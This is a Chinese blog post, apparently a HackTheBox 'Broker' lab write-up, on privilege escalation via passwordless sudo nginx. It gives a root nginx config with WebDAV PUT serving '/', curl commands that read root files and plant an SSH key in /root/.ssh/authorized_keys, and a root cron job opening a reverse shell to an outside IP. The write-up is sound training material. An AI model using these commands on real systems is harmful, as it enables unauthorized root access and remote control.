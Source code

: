 ```yaml
---
title: sudo nginx提权学习
categories:
  - Linux
tags:
  - Linux
  - PE
---
```

## 0x00 前言
在[Broker](https://app.hackthebox.com/machines/Broker)这台机器上学的一种提权方式，重点是nginx配置文件的学习，以及如何通过上传文件到任意位置得到root权限。

---
## 0x01 枚举
使用`sudo -l`可以得到如下信息
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
能使用sudo通过无密码的方式以root用户的权限运行nginx命令

运行`nginx -h`得到帮助信息
```bash
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```
可以看到-c标志能指定nginx服务的配置文件，所以我们可以通过更改配置文件的方式来利用它。

---
## 0x02 通过PUT方法上传公钥
既然可以以root用户运行nginx命令，那么我们可以写一个以root用户运行的nginx服务的配置文件，根目录就为`/`

之后使用`dav_methods PUT;`定义put方法，就可以以root用户的身份上传文件。

在/dev/shm目录下写一个nginx配置文件，名为ix1.conf

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1111;
		root /;
		autoindex on;

		dav_methods PUT;
	}	

}
```

1. **`user root;`：**
    - 设置 Nginx 进程的运行用户为 **`root`**。这是指定 Nginx 进程以特定用户身份运行的一种方式。
2. **`worker_processes 4;`：**
    - 指定启动的 Nginx worker 进程的数量为 4。Nginx 使用多进程模型，每个 worker 进程可以处理并发请求。
3. **`pid /run/nginx2.pid;`：**
    - 指定存储主进程 ID 的文件路径。Nginx 主进程的 ID 将被写入此文件，以便后续管理和监控。
4. **`events { ... }`：**
    - 定义与事件相关的配置块，如最大连接数等。
    - **`worker_connections 768;`：** 指定每个 worker 进程的最大连接数。
5. **`http { ... }`：**
    - 定义与 HTTP 相关的配置块。
    - **`server { ... }`：** 定义一个简单的虚拟主机。
        - **`listen 1111;`：** 指定监听的端口号为 1111。
        - **`root /;`：** 指定服务器的根目录为根目录（/），这表示 Nginx 将会从文件系统的根目录提供文件。
        - **`autoindex on;`：** 打开自动目录索引功能，当访问一个目录时，如果没有默认的索引文件（如 index.html），则显示该目录下的文件列表。
        - **`dav_methods PUT;`：** 启用 WebDAV 的 **`PUT`** 方法，允许客户端上传文件到服务器。

这个配置文件的目的是创建一个简单的 Nginx 服务器，监听端口 1337，允许通过 WebDAV 的 **`PUT`** 方法上传文件，同时启用了自动目录索引。请注意，实际生产环境中的配置可能需要更多的安全性和性能优化。

然后使用`sudo nginx -c`指定配置文件

```bash
sudo nginx -c /dev/shm/ix1.conf
```

运行`ss -lntp`可以看到1111端口开放，说明以上配置成功。

```bash
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                                   
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=924,fd=6),("nginx",pid=923,fd=6),("nginx",pid=922,fd=6))                             
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*    users:(("systemd-resolve",pid=519,fd=14))                                                                
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=947,fd=3))                                                                            
LISTEN 0      511          0.0.0.0:1111       0.0.0.0:*    users:(("nginx",pid=3859,fd=6),("nginx",pid=3858,fd=6),("nginx",pid=3857,fd=6))                          
LISTEN 0      511          0.0.0.0:12345      0.0.0.0:*    users:(("nginx",pid=1883,fd=6),("nginx",pid=1882,fd=6),("nginx",pid=1881,fd=6),("nginx",pid=1880,fd=6),("nginx",pid=1879,fd=6),("nginx",pid=1878,fd=6))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=966,fd=145))                                                                          
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=966,fd=148))                                                                          
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=966,fd=143))                                                                          
LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=947,fd=4))                                                                            
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=966,fd=146))                                                                          
LISTEN 0      50                 *:34783            *:*    users:(("java",pid=966,fd=26))                                                                           
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=966,fd=154))                                                                          
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=966,fd=144))
```

然后可以使用`curl`查看主机上的任意文件。

```bash
activemq@broker:/dev/shm$ curl localhost:1111/root/root.txt
xxxxxxxxxxxxxxxxxxxx
```

也可以通过`PUT`方法上传文件到任意位置。

在本机生成一个公私钥对

```bash
ssh-keygen
```

然后通过curl上传（三种方式都行）

```bash
curl -X PUT localhost:1111/root/.ssh/authorized_keys -d "$(cat root.pub)"
curl -T root.pub localhost:1111/root/.ssh/authorized_keys
curl --upload-file root.pub localhost:1111/root/.ssh/authorized_keys
```

然后通过`ssh -i`指定私钥连接。

---
## 0x03 写计划任务反弹shell
可以通过在`/var/spool/cron/crontab`下写一个root用户的计划任务反弹shell

新建一个文件内容如下

```bash
* * * * * bash -c "bash -i >& /dev/tcp/10.10.16.28/9999 0>&1"
```

意思是每一分钟执行一次。

不理解可以看`/etc/crontab`文件

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

然后上传到`/var/spool/cron/crontabs/root`

<aside> ⚠️ 在 Unix/Linux 系统中，/var/spool/cron/crontabs/ 目录通常包含了每个用户的个人 cron 作业文件。这个目录下的文件名称通常以用户名为基础，对应每个用户的 crontab 文件。这些文件包含了用户通过 crontab -e 命令编辑的定时任务。

</aside>

```bash
curl -T cron localhost:1111/var/spool/cron/crontabs/root
```

等待一分钟
![1](/assets/img/2023-11-18-sudo nginx提权学习/1.png)